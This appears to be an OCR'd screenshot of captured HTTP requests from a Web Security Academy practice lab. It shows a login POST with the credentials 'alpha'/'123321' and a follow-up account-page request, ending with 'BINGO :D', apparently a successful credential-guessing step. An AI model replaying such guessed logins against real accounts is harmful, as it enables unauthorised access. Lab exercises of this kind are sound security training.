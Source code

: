 ```python
Cookie: session=xgGiuob4Y682GN1VsK8Zk4edcSG5ZXJ8
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Origin: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
Connection: keep-alive

username=alpha&password=123321







GET /my-account?id=alpha HTTP/2
Host: 0ae80007045692bb80d78ae80012009a.web-security-academy.net
Cookie: session=fGUzso4uQ84NAxmHl0HutkXUeEEHsRPl
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9




BINGO :D
```
